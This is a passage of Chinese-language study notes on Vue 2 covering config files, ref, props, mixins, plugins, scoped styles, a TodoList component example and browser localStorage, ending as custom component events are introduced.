对于 vue 组件中的 template 标签之所以可以使用，是由于引入模板解析器相关的包


但是 vm 实例中是不能使用 template 相关的标签的


## 7.4 修改默认配置

我们知道，在 Vue 中，main.js 是默认的入口文件，我们是不能进行修改的（包括文件名和文件位置），如果我们想要修改，需要进入到  特定的配置文件中进行修改；

在 webpack 中有专门的配置文件 webpack.config.js， 同时 Vue 脚手架也有自己的配置文件（默认是隐藏的），我们如果需要查看，需要使用如下命令导出配置文件：

```bash
vue inspect > output.js
```

如下图：


> 我们可以看到里面报错了，是因为导出的文件中的内容是一个对象，如果想要解决这一问题，需要用于一个参数去接受，或者使用 `export default` 进行默认暴露

<font color="red">但是导出的只是参考文档，修改里面的内容无意义</font>

接下来我们先讲述一下，如果我们不修改默认配置，那么哪些配置是不能修改的：


<font color="red">红色方框标注的部分都是我们不能修改的</font>

如果我们想要修改默认配置，可以参考 Vue 的[官方文档](https://cli.vuejs.org/zh/config/)

我们可以根据其中的 pages 的配置来修改 Vue.config.js 文件，进而对默认参数进行修改


> 其实在 Vue 中有一个默认的 Vue.config.js，该文件是不能进行修改并且不可见，当我们修改 Vue.config.js 后，该文件会默认的 Vue.config.js 进行整合，并且如果我们配置了自定义的 Vue.config ，那么里面的内容就不能为空

```js
module.exports = {
  pages: {
    index: {
      // page 的入口
      entry: 'src/index/main.js',
      // 模板来源
      template: 'public/index.html',
      // 在 dist/index.html 的输出
      filename: 'index.html',
      // 当使用 title 选项时，
      // template 中的 title 标签需要是 <title><%= htmlWebpackPlugin.options.title %></title>
      title: 'Index Page',
      // 在这个页面中包含的块，默认情况下会包含
      // 提取出来的通用 chunk 和 vendor chunk。
      chunks: ['chunk-vendors', 'chunk-common', 'index']
    },
    // 当使用只有入口的字符串格式时，
    // 模板会被推导为 `public/subpage.html`
    // 并且如果找不到的话，就回退到 `public/index.html`。
    // 输出文件名会被推导为 `subpage.html`。
    subpage: 'src/subpage/main.js'
  }
}
```

我们在脚手架环境下，默认是打开【语法检查】的，【语法检查】虽然有利于我们更好地开发，但却不利于我们平时的学习，为了平时更好地学习测试，我们需要关闭语法检查，在 vue.config.js 中添加如下的配置项：

```js
lintOnSave:false
```


## 7.5 ref

在讲解 ref 之前，先讲清楚两点：

1. 在 Vue 中使用 `npm run serve` 时的打印信息（例如报错信息）会停留在控制台上，我们需要刷新才能更新浏览器才能查看当前程序的运行状态
2. 我们书写组件的顺序最好是按照：name（决定在 Vue 开发者工具中的显示名称）→ components → data() 的顺序进行规范书写

---


ref 属性的作用：<font color="red">用来给元素或子组件注册引用信息（id 的替代者）</font>

:herb:<u>ref 属性应用在 html 标签中获取的是真实的 DOM ，应用在组件标签中是组件实例对象</u>

 使用方式：

**注册**

```html
<!-- 注册在 html 标签中 -->
<h1 ref="xxx">…</h1>
<!-- 注册在组件实例对象中 -->
<School ref="xxx"></School>
```

- 对于一般的 DOM 结构的元素，通过 ref 获取的内容与使用 id 获取的内容一致，都是获取的节点元素的 DOM 结构

  

- 对于组件实例对象，通过 ref 获取的是组件实例对象，通过 id 获取的是组件实例对象上对应的 DOM 结构

  


**获取**

```js
this.$refs.xxx
```

> 千万不能缺省`$`符号


## 7.6 props 配置

之前，我们在配置组件的时候，数据总是跟随组件的，也就是说数据和组件没有做到完全分离，如果我们想要每次使用组件的时候，组件固定，但是数据自定义，就需要用到 props 配置项，如下：


现在，我们想要将第二个学生姓名改成"李四"，性别改成"女"，年龄改成"19"，就可以使用 props 配置项

功能：<font color="red">让组件接受外部传过来的数据</font>

1. 传递数据

   ```js
   <Demo name="xxx">
   ```

2. 接收数据

   ```js
   // 方法1(只接收)
   props:['name']
   // 假如传入了 age，接受到的 age 会是一个字符型，要表示为数值型，需要在传递数据的属性名前加上":""，例如: <Demo :age="xxx"> 
   // 方法2(限制类型)
   props:{
   	name: Number
   }
   
   // 方式3(限制类型、限制必要性、指定默认值)
   props:{
       name:{
           type:String,	// 限制类型
           required:true,	// 必要性
           default:'xxxx'	// 默认值，如果不加引号代表的是一个数值类型，加了引号代表的是一个字符串类型
       }
   }
   // 通常情况下，required 是不会和 default 一起出现的，因为一般都是可选参数才可以省略，才需要拥有 default 默认值
   ```

3. 注意事项

   <strong style="color:red">props 是只读的</strong>，Vue 底层会检测程序员对 props 的修改 ，如果进行修改，就会发出警告，若业务需求确实需要修改，那么需要将数据拷贝到 data 中进行，再去修改 data 中的属性值

   ```js
   // Student 组件
   data() {
       return {
           myName:this.name
       }
   },
   props:{
     name:String,
     required:true,
   },
   ```

   ```js
   // App 组件
   <Student name="张三"></Student>
   ```

示例如下：

```js
// App.vue
<template>
  <div>
    <Student name='张三' gender='男' age='18'/>
    <hr>
    <Student name='李四' gender='女' age='19'/>
  </div>

</template>

<script>
// 引入子组件
// import School from "./components/School";
import Student from "./components/Student";

export default {
  name: "App",
  components: {
    Student
  },
};
</script>
```

```js
// Student.vue
<template>
  <div>
    <h2>学生姓名: {{name}}</h2>
    <h2>学生性别: {{gender}}</h2>
    <h2>学生年龄: {{age}}</h2>
  </div>
</template>

<script>
export default {
    props:['name', 'gender', 'age']
}
</script>
```

最终显示结果如下：


我们在 Vue 开发者工具中也可以看到，name、gender、age 这三个属性都是配置在 prop 配置项中


:herb:扩展

之前我们说过了通过在传递数据时，标签默认是 key="value" 的形式，默认情况下，template 里面接受的数据默认是字符类型，但是我们可以通过 `v-bind` 将里面的参数当做 JS 表达式，其值为<strong style="color:red">引号里面表达式运行的结果</strong>，例如 `<Student :age="18"/>`，此时 18 会被当做一个数值类型


**当我们使用了限制类型的写法，如果一旦传入的参数出现类型不匹配的进行，控制台将会报错**


> 还有 JS 里面没有 int、long 类型，只有 Number 表示的是数值类型

**对配置项相关的参数进行修改需要间接进行修改，如下：**

```js
// Student.vue
<template>
  <div>
    <h2>学生姓名: {{name}}</h2>
    <h2>学生性别: {{gender}}</h2>
    <h2>学生年龄: {{myAge+1}}</h2>
    <button @click="updateAge">点击我改变年龄</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      myAge: this.age,
    };
  },
  methods: {
    updateAge() {
      this.myAge = 20;
    }
  },
  props: {
    name: String,
    gender: String,
    age: Number,
  },
};
</script>
```


**为配置项中某个参数要设置为 require，如果没有进行传递参数，那么将会报错如下：**


**props 配置项中不能使用 key、ref 等 vue 已经征用的关键字**


> 翻译："key" 是保留字


## 7.7 mixin 混入

功能：<font color="red">把多个组件共用的配置提取成一个混入对象</font>

使用方式：

1. 定义混合同时将其暴露出去

   ```js
   export const mixin_1{
   	data(){…},
   	methods(){…},
   	…
   }
   ```

2. 使用混入

   - 全局混入

     ```js
     Vue.mixin(xxx)
     ```

   - 局部混入

     ```js
     // 导入混入
     import {xxx,xxxx，…} from url
     // 在配置项中配置 mixins
     mixins:['xxx','xxx',…]
     ```

> :information_source: 当混入的 data 或 methods 与 原数据data 或 methods 配置项中的数据发生冲突时，以原数据为主；而如果是钩子函数，则都会执行

mixin 混合的作用其实就是<u>共享相同的配置，提高代码复用率</u>，我们现在举例如下：

```js
// 在 Student.vue 中做出如下配置
<template>
  <div>
    <h2>学生姓名: {{name}}</h2>
    <h2>学生性别: {{gender}}</h2>
    <h2>学生年龄: {{myAge+1}}</h2>
    <button @click="showInfo">点击显示全部信息</button>
  </div>
</template>

<script>
import {showInfo} from '../mixin';
export default {
  data() {
    return {
      myAge: this.age,
    };
  },
 props:['name', 'gender', 'age'],
 mixins:[showInfo]
}
</script>
```

```js
// 在 School.vue 文件中做出如下配置
<template>
  <div>
    <h2>学校名称:{{schoolName}}</h2>
    <h2>学校地址:{{schoolAddress}}</h2>
    <button @click='showInfo'>点我显示全部信息</button>
  </div>
</template>

<script>
import {showInfo} from '../mixin';
// 使用默认暴露将School组件暴露给App.vue
export default {
    name:'School',
    data() {
        return {
            schoolName:'江西师范大学',
            schoolAddress:'江西南昌',
        }
    },
    mixins:[showInfo]
}
```

```js
// mixin.js 的配置如下
export const showInfo = {
    methods:{
        showInfo() {
            console.log(this._data);
        }
    }
}
```

```
src                
├─ components      
│  ├─ School.vue   
│  └─ Student.vue  
├─ App.vue         
├─ main.js         
└─ mixin.js        
```


对于全局混合的设置主要是在 main.js 中进行配置，例如如果前面我们写了一个 mixin.js 文件，里面主要存放了我们写的一个 method，那么我们可以像下面的这种写法进行全局配置 mixin

```js
// 引入 Vue 框架
import Vue from 'vue';
// 引入总组件 App.vue
import App from './App.vue';
// 引入 mixin
import {showInfo} from './mixin';
// 进行 mixin 的全局配置
Vue.mixin(showInfo);
// 关闭生产提示
Vue.config.productionTip = false;

// 创建Vue的实例对象
new Vue({
    // 渲染总组件App到容器中
    render: h => h(App)
}).$mount('#app')    // 挂载 app 容器
```

> 注意：这样相当于我们给 vm 和下面的所有 vc 都配置了这个 mixin

## 7.8 插件

Vue 里面的插件<strong style="color:red">其实就是一个对象，在这个对象中必须要有 install 方法</strong>，我们接下来自己来编写一个插件：

1. 在 src 文件夹下的 components 文件夹下创建 plugins.js 
2. 之后在里面写入代码，并暴露出去即可

```
src                
├─ components      
│  ├─ School.vue   
│  └─ Student.vue  
├─ App.vue         
├─ main.js         
├─ mixin.js        
└─ plugins.js: 在里面书写插件（扩展对象）       
```

插件的作用是：<font color="red">用来增强 Vue</font>，其本质是<font color="red">包含 install 方法的一个对象，install 方法的第一个参数 Vue，第二个及后面的参数是插件使用者传递的数据</font>

插件里面可以写入的内容：

```js
// 1. 添加全局过滤器
Vue.filter()

// 2. 添加全局指令
Vue.directive()

// 3. 配置全局混入
Vue.mixin()

// 4. 添加实例方法
Vue.prototype.$myMethods = function(){}
```


**使用插件**：`Vue.use()`


**示例如下：**

插件中我们写如下内容（不止）：

```js
export default {
    // install 方法传入的参数是 Vue，我们可以通过 Vue 进行全局配置，或者给 Vue 的原型上添加方法
    install(Vue) {
        // 定义全局过滤器
        Vue.filter('format', function(value) {
            // 该过滤器的主要作用是将8位出生日期格式化
            return value.splice(0,4) + '年' + value.splice(4,6) + '月' + value.splice(6,8);
        })

        // 定义全局指令
        Vue.directive('big', function(el, binding) {
            el.innerHTML = binding.value*10;
        })

        // 定义全局混入
        Vue.mixin({
            methods:{
                showInfo() {
                    console.log(this._data);
                }
            }
        })
        
        // 给 Vue 原型上添加方法
        Vue.prototype.hello = () => {
            alert('Hello World!');
        }
    }
}
```

在 main.js 中进行引用

```js
import plugins from './plugins';
Vue.use(plugins);
```

:warning:**注意：**

如果我们想要调用 prototype  扩展方法时，需要像下面这么配置使用


:herb:**扩展**

plugins 里面的 install 可以不止有一个 Vue 参数，还可以传入其他参数，第二个参数及以后的参数都是用户自定义的需要传入使用的参数


## 7.9 scoped 样式

**scoped 的作用：**<font color="red">让样式在局部生效，防止冲突</font>

在 Vue 中，我们单独在每一个子组件中书写的 css样式，最后都会整合到一起到，所以这样就会引起一个问题，那就是样式命名冲突，如下，我们在 Student 中书写了一个样式 .demo，让背景色变成粉色；再在 School 中书写一个相同命名的样式 .demo，让背景色编程橙色，最终显示效果如下：


打开开发者工具：


可以知道，后面的组件样式覆盖了前面的组件样式，这在分组开发中是十分不方便的，为了解决这一问题，**我们可以在 style 中添加 scoped 属性**，这样一来，**该组件的样式只能为该组件内部使用，其他组件无法使用**

> scoped 的本意就是局部、范围，在这里就表示局部作用域


我们再打开控制台，可以看到 Vue 工作的底层原理是给每一个标签后面添加一个 data-v 开头的，后面连接着一串随机字符的属性来实现单独抽离出来的效果


---

:herb:**扩展1**

```
但是我们需要知道一点的就是我们在App.vue 中添加的样式在所有组件中都可以共享，所以 App.vue 中的 style 是不会添加 scoped 属性的
```

:herb:**扩展2**

Vue 中的 style 属性，我们还可以添加属性 lang，表示样式编辑语言是选用 less 还是 css

~~截止到 2022-11-26，Vue 所使用的的版本所使用的的 webpack 是 4.6（稳定版，而非使用 5.x 版本）~~，而 less-loader 最新版本是 11.0，webapck 5.x 才支持 less-loader 8.x 及以上版本

```bash
# 查看 less-loader 所有版本
npm view less-loader versions

# 查看 webpack 所有版本
npm view webpack versions

# 查看当前使用的 webpack 版本
npx webpack -v
```

> 如果当前 Vue 使用的是 webpack 4.6，所以我们最好下载 less-loader 7.x 版本


# 8 TodoList 案例

我们来到 一个 todolist 的官网上，查看相关的功能，其实 todolist 就是我们手机上的任务清单功能，[官网传送门](https://www.todolist.cn/)


我们接下来要使用**组件化编码流程**来实现该功能的开发，具体流程如下：

1. 实现静态组件：抽取组件，使用组件实现静态页面
2. 展示动态数据
   - 数据的类型、名称时什么？
   - 数据保存在那个组件中？
3. 交互——从绑定事件监听开始

**组件结构如下：**


我们首先应事先写好 HTML 静态页面，之后将 HTML 中的 DOM 结构和 CSS 样式进行拆分，形成这样的层级：

```
src                   
├─ components         
│  ├─ ListFooter.vue  
│  ├─ ListHeader.vue  
│  ├─ ListItem.vue：ListTotal 中的子列表项  
│  └─ ListTotal.vue   
├─ App.vue            
├─ main.js            
├─ mixin.js           
└─ plugins.js         
```

## 8.1 初始化列表

为了能够渲染好 todolist 中各项列表，我们需要做出如下操作：

```js
// ListTotal
<template>
  <ul class="todo-main">
    <ListItem v-for="todo in todos" :key="todo.id" :todoObj='todo'/>
  </ul>
</template>

<script>
import ListItem from "./ListItem";

export default {
  name: "ListTotal", 
  components: {
    ListItem,
  },
  data() {
    return {
      todos: [
        { id: "001", title: "吃饭", done: true },
        { id: "002", title: "睡觉", done: false },
        { id: "003", title: "打豆豆", done: true },
      ],
    };
  },
};
</script>
```

```js
// ListItem
<template>
      <li>
      <label>
        <input type="checkbox" :checked="todoObj.done"/>
        <span>{{todoObj.title}}</span>
      </label>
      <button class="btn btn-danger" style="display:none">删除</button>
    </li>
</template>

<script>
export default {
    name:'ListItem', 
    props:['todoObj']                                                                           
}
</script>
```

- 首先，我们需要在 item 文件里面配置 props 项（注意不要少了 "s"），total 文件里面传入的参数是经过 vue 解析好的JS表达式（在这里为解析一个 todo 对象，todo 对象来自于 todos 数组的每一个元素）

- 如何根据 todoObj.done? 来判断是否勾选？使用 checked 属性，注意一定要使用 ":" 来解析 todoObj.done 的布尔值

- 可能出现的错误：todo.id 的值一定不能重复，否则会报错如下：

  

  > "001"这个主键标识有重复的值，这会导致更行异常

初步显示效果如下：


## 8.2 添加列表

如果我们想要添加列表，那么肯定首先得获取要添加的值，要添加的值处在搜索框中，所以我们需要给搜索添加事件

```html
<input type="text" placeholder="请输入你的任务名称，按回车键确认" @keyup.enter="add"/>
```

```js
// methods 事件
add(e) {
	// 通过 e.target.value 来得到搜索框中的值
	// console.log(e.target.value);	
    const todo = {id:nanoid(), title:e.target.value, done:false};
}
```

- 这里需要考虑一个问题，就是如何动态生成唯一标识 id 的值？

  我们可以使用 uuid 这个库，但是 uuid 生成的唯一标识太长，我们可以换一个更加精简的库 nanoid，安装命令为：

  ```bash
  npm i nanoid
  ```

  nanoid 采取的是分别暴露，所以得用如下代码进行引入:

  ```js
  import {nanoid} from 'nanoid'
  ```

这里还有第二个难点：我们在前面已经学习到了，可以<u>通过 props 配置项完成父子组件间的通信</u>，<strong style="color:red">但是如何实现在兄弟组件中进行通信？</strong>，在这里具体体现在如何实现在 Header 与 Total 组件之间的通信，将 Header 创建得到的对象传递给 Total 组件，添加到里面 data 中去

具体实现思路如下：


- 在这里：我们需要了解到的一点就是<strong style="color:red">在 props 中的配置项，最终都会挂载到 vc 身上</strong>

- 我们要实现子组件传递数据到父组件，可以采用如下思路：

  1. 在父组件中定义一个函数，将该函数传递到子组件中
  2. 子组件利用 props 配置项将接受到的函数挂载到 vc 身上之后，调用该函数来为父组件传递参数，进而进行操作

  

我们在这里就不讲解如何将父组件的参数传递给子组件了，直接展示相关代码（去除掉 css 样式）

```js
// App
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <ListHeader :addTodo="addTodo"/>
        <ListTotal :todos="todos"/>
        <ListFooter/>
      </div>
    </div>
  </div>
</template>

<script>
// 引入子组件
import ListHeader from "./components/ListHeader";
import ListTotal from "./components/ListTotal";
import ListFooter from "./components/ListFooter";

export default {
  name: "App",
  methods: {
    addTodo(todoObj) {
      this.todos.unshift(todoObj);
    }
  },
  components: {
    ListHeader,
    ListTotal,
    ListFooter,
  },
  data() {
    return {
      todos: [
        { id: "001", title: "吃饭", done: true },
        { id: "002", title: "睡觉", done: false },
        { id: "003", title: "打豆豆", done: true },
      ],
    };
  },
};
</script>
```

```js
// ListHeader
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称，按回车键确认" @keyup.enter="add"/>
  </div>
</template>

<script>
import {nanoid} from 'nanoid';
export default {
  name: "ListHeader",
  props:['addTodo'],  // 传递的函数最终挂载到 vc 身上
  methods: {
    add(e) {
      // 判空处理
      if(!e.target.value.trim()) return;
      // 将用户的输入包装称为一个 todo 对象
      const todo = {id:nanoid(), title:e.target.value, done:false};
      // console.log(todo);
      // 调动函数 addTodo, 将参数 todo 传递到父组件中 App 中进行使用
      this.addTodo(todo);
      // 当添加完成之后，将 input 框中的内容清空
      e.target.value = '';
    }
  }
};
</script>
```


## 8.3 勾选操作

勾选操作涉及孙子组件给爷爷组件之间的通信，操作也是一样的：

<strong style="color:red">先通过爷爷组件传递参数给父组件，父组件再将参数传递给孙子组件</strong>，代码如下：

```js
// App
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <ListHeader :addTodo="addTodo"/>
        <ListTotal :todos="todos" :handlerCheck="handlerCheck"/>	// 将 handlerCheck 函数传递给 ListTotal
        <ListFooter/>
      </div>
    </div>
  </div>
</template>

<script>
// 引入子组件
import ListHeader from "./components/ListHeader";
import ListTotal from "./components/ListTotal";
import ListFooter from "./components/ListFooter";

export default {
  name: "App",
  methods: {
    // 添加列表
    addTodo(todoObj) {
      this.todos.unshift(todoObj);
    },

    // 管理选中状态
    handlerCheck(list_id) {
      this.todos.forEach((todo) => {
        if (todo.id == list_id) {
          todo.done = !todo.done;
        }
      })
    }
  },
  components: {
    ListHeader,
    ListTotal,
    ListFooter,
  },
  data() {
    return {
      todos: [
        { id: "001", title: "吃饭", done: true },
        { id: "002", title: "睡觉", done: false },
        { id: "003", title: "打豆豆", done: true },
      ],
    };
  },
};
</script>
```

```js
<template>
  <ul class="todo-main">
    <ListItem v-for="todo in todos" :key="todo.id" :todoObj='todo' :handlerCheck="handlerCheck"/>
// 再将 handlerCheck 传递给 ListItem
  </ul>
</template>

<script>
import ListItem from "./ListItem";

export default {
  name: "ListTotal",
  components: {
    ListItem,
  },
  props:['todos', "handlerCheck"],
// 接收传递过来的 handlerCheck
};
</script>
```

```js
// ListItem
<template>
      <li>
      <label>
        <input type="checkbox" :checked="todoObj.done" @change="handlerCheck(todoObj.id)"/>
// 在 ListItem 中进行调用
        <span>{{todoObj.title}}</span>
      </label>
      <button class="btn btn-danger" style="display:none">删除</button>
    </li>
</template>

<script>
export default {
    name:'ListItem', 
    props:['todoObj', 'handlerCheck'],                                                                     
}
</script>
```

显示效果如下：


---

其实我们如果仅仅是想实现侦测选中状态，我们完全可以使用 v-model 这个双向数据绑定，这就不需要使用组件之间的通信，实现代码如下：

```js
<input type="checkbox" v-model="this.todoObj.done"/>
```

> 这里可能有有人很奇怪，todoObj 是 props 中的一个配置项，tofoObj 难道不应该是不能进行修改的吗？其实这涉及到栈和堆两个存储区域之分，学过 Java 的应该对此都是比较熟悉的：
>
> - 基本数据类型都是存储在堆中
> - 引用数据类型的地址都是存储在栈中，值存储在堆中，访问的时候都是通过地址去访问存储在堆中的值
> - 对基本数据类型，对其值的改变，Vue 是可以监测的到，但是对于引用数据类型，只有地址发生改变，Vue 才能侦测的到


## 8.4 删除操作

删除操作同勾选操作的原理大体相同，这里不过多赘述，只展示一下删除代码的数组操作：

```js
handlerDelete(list_id) {
  this.todos = this.todos.filter((todo) => todo.id !== list_id)
}
```


## 8.5 底部状态栏交互

- 获取总列表长度：`todos.length`

- 获取处于选中状态的列表：

  ```js
  computed: {
    doneTotal() {
      return this.todos.reduce((pre, current) => {  // pre 为上一次 reduce 函数执行的返回值, current 指向的是当前的todo项         
        return pre + (current.done ? 1 : 0);
      }, 0)
    }
  }
  ```

除此之外，还有一些交互，比如点击全选按钮和清空所哟已经完成的列表项


## 8.6 代码汇总

```js
// App
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <ListHeader :addTodo="addTodo"/>
        <ListTotal :todos="todos" :handlerCheck="handlerCheck" :handlerDelete="handlerDelete"/>
        <ListFooter :todos="todos" :clearAllTodo="clearAllTodo"/>
      </div>
    </div>
  </div>
</template>

<script>
// 引入子组件
import ListHeader from "./components/ListHeader";
import ListTotal from "./components/ListTotal";
import ListFooter from "./components/ListFooter";

export default {
  name: "App",
  methods: {
    // 添加列表
    addTodo(todoObj) {
      this.todos.unshift(todoObj);
    },

    // 管理选中状态
    handlerCheck(list_id) {
      this.todos.forEach((todo) => {
        if (todo.id == list_id) {
          todo.done = !todo.done;
        }
      })
    },

    // 删除选中列表
    handlerDelete(list_id) {
      this.todos = this.todos.filter((todo) => todo.id !== list_id)
    },

    // 清空所有的列表
    clearAllTodo() {
      this.todos = this.todos.filter((todo) => {
        return !todo.done;
      })
    }
  },
  components: {
    ListHeader,
    ListTotal,
    ListFooter,
  },
  data() {
    return {
      todos: [
        { id: "001", title: "吃饭", done: true },
        { id: "002", title: "睡觉", done: false },
        { id: "003", title: "打豆豆", done: true },
      ],
    };
  },
};
</script>

<style>
/*base*/
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2),
    0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}
</style>
```

```js
// ListHeader
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称，按回车键确认" @keyup.enter="add"/>
  </div>
</template>

<script>
import {nanoid} from 'nanoid';
export default {
  name: "ListHeader",
  props:['addTodo'],  // 传递的函数最终挂载到 vc 身上
  methods: {
    add(e) {
      // 判空处理
      if(!e.target.value.trim()) return;
      // 将用户的输入包装称为一个 todo 对象
      const todo = {id:nanoid(), title:e.target.value, done:false};
      // console.log(todo);
      // 调动函数 addTodo, 将参数 todo 传递到父组件中 App 中进行使用
      this.addTodo(todo);
      // 当添加完成之后，将 input 框中的内容清空
      e.target.value = '';
    }
  }
};
</script>

<style scoped>

/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075),
    0 0 8px rgba(82, 168, 236, 0.6);
}

</style>
```

```js
// ListTotal
<template>
  <ul class="todo-main">
    <ListItem v-for="todo in todos" :key="todo.id" :todoObj='todo' :handlerCheck="handlerCheck" :handlerDelete="handlerDelete"/>
  </ul>
</template>

<script>
import ListItem from "./ListItem";

export default {
  name: "ListTotal",
  components: {
    ListItem,
  },
  props:['todos', "handlerCheck", "handlerDelete"],

};
</script>

<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

```js
// ListItem 
<template>
      <li>
      <label>
        <input type="checkbox" :checked="todoObj.done" @change="handlerCheck(todoObj.id)"/>
        <span>{{todoObj.title}}</span>
      </label>
      <button class="btn btn-danger" @click="deleteTodo(todoObj.id)">删除</button>
    </li>
</template>

<script>
export default {
    name:'ListItem', 
    props:['todoObj', 'handlerCheck', 'handlerDelete'],     
    methods: {
      deleteTodo(list_id) {
        if(confirm("确认删除")) {
          this.handlerDelete(list_id);
        }
      }
    }                                                                
}
</script>

<style scoped>

/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}

li:hover {
  background: #ccc;
  /* display: block; */
}

li:hover button {
  display: block;
}
</style>
```

```js
// ListFooter
<template>
  <div class="todo-footer" v-show="todos.length">
    <label>
      <input type="checkbox" :checked="isAll" @click="checkAll"/>
    </label>
    <span>
      <span>已完成{{doneTotal}}</span> / 全部{{todos.length}}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>

<script>
export default {
    name:'ListFooter',
    props:['todos', 'clearAllTodo'],
    methods: {
      checkAll(e) {
        this.todos.forEach((todo) => {
          todo.done = e.target.checked;
        })
      },
      // 清空所有已经完成的列表
      clearAll() {
        this.clearAllTodo();
      }
    },
    computed: {
      doneTotal() {
       return this.todos.reduce((pre, current) => {  // pre 为上一次 reduce 函数执行的返回值, current 指向的是当前的todo项         
          return pre + (current.done ? 1 : 0);
       }, 0)
      },
      isAll() {
        return this.doneTotal === this.todos.length && this.doneTotal > 0;
       }
    }
}
</script>

<style>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```


# 9 浏览器的本地存储

我们首先介绍以下一个应用场景，打开唯品会的[官网地址](https://www.vip.com/)

我们在搜索框中搜索相关内容


我们回到搜索界面，会发现在搜索历史中出现了搜索记录（此时我并没有登录官网）


那么，这个搜索记录是存储在哪里的呢？

我们打开浏览器调试工具：【Application】→ 【Local Storage】


我们可以看到里面有一个键值对 searchHistoryData ，里面存储的就是我们刚才的历史搜索记录，我们还可以对其进行修改等操作

那么 Local Storage 是什么呢？ 

## 9.1 localStorage

localStorage 是浏览器的一个特性，这个特性主要是用来作为本地存储来使用的，<strong style="color:red">解决了 cookie 存储空间不足的问题</strong>（cookie 的存储空间为 4k），localStorage 中一般浏览器支持的是 5M 大小

**localStorage 的优势：**

1. localStorage 拓展了 cookie 的 4K 的限制
2. localStorage 可以将第一次请求的数据存储到本地，这相当于一个 5M 大小的前端页面的数据库，相比于 cookie 可以节约宽带，但是这个只有在高版本浏览器中才支持（IE 浏览器需要在 8 版本以上）

**localStorage 的局限**

1. 浏览器的大小不统一，并且只有在 IE8 以上的版本才支持 localStorage 这个属性
2. 目前所有的浏览器都会把 localStorage 的值类型先定位 String 类型，如果需要存储对象，那么需要我们用到 JSON 内置的一些方法做一些转换
3. localStorage 在浏览器的隐私模式下是不可读取的
4. localStorage 本质是对字符串的读取，如果存储内容过多就会消耗内存空间，导致页面变卡
5. localStorage 不能被爬虫抓取到
6. localSorage 和 sessionStorage 唯一的区别在于 localStorage 属于永久存储，而 sessionStorage 在会话结束的时候键值对会被清空m，也即他们的生存期不同

**localstorage API** 

1. 添加（设置） 存储记录

   ```js
   // value 为普通字符串
   localStorage.setItem('key', 'value')
   // value 为对象
   localStorage.setItem('key', JSON.stringify(obj))
   ```

2. 获取存储记录

   ```js
   var result = localStorage.getItem('key')
   
   // 如果得到的是一个对象字符串，那么我们还需要将其解析出来
   console.log(JSON.parse(result))
   ```

3. 删除单个记录

   ```js
   localStorage.removeItem('key')
   ```

4. 清空所有的记录

   ```js
   localStorage.clear()
   ```

   

sessionStorage 的内置方法与 localStorage 基本一致，我们通常将 <strong style="color:red">localStorage 和 sessionStorage 统称为 webStorage</strong>

:spiral_notepad:备注：

1. sessionStorage 存储的内容会随浏览器窗口的关闭而清除
2. localStorage 存储的内容需要手动清除才会消失
3. 使用 `xxxStorage.getItem(xxx)`获取数据，如果 xxx 对应的 value 获取不到，那么 getItem 的返回结果是 null
4. `JSON.parse(null)` 的结果仍然是 null


## 9.2 将 todoList 案例设置为本地存储

我们只需要 App.vue 修改部分代码即可，修改如下：

```js
data() {
  return {
    todos: JSON.parse(localStorage.getItem("todos")) || [], // 将存储的 JSON 字符串解析成 JSON 对象，如果如果为空，那么我们需要让其转换为一个空数组，因为 JSON.parse(null) 为 null,就不存在 lenght 属性，获取时会报错
  };
},
watch: {
  todos: {
    deep: true, // 开启深度监视，监视里面的每一个对象的 done 值
    handler(value) {
      localStorage.setItem("todos", JSON.stringify(value)); // 将 value 值转化为一个JSON字符串
    },
  },
},
```


# 10 组件自定义事件

## 10.1 绑定自定义事件

前面我们使用了 props 来完成子组件向父组件通信，其实我们也可以通过组件的自定义事件来完成子组件向父组件通信的效果：

我们拿 School 组件向父组件 App 通信为例：

```js
// App
// template
<School @myGetStudentName="getSchoolName"></School>
// 给 School 绑定一个自定义事件 myGetStudentName
// methods
getSchoolName(sch_name) {
  console.log("App接受到学校姓名为："+sch_name);
},
```

```js
// School
// template
<button @click="sendSchoolName">点击我得到学校名称</button>
// methods
sendSchoolName() {
    this.$emit('myGetStudentName', this.sch_name)
}
// 当我们点击button按钮之后，使用$emit触发自定义事件，并且传入参数this.sch_name
```

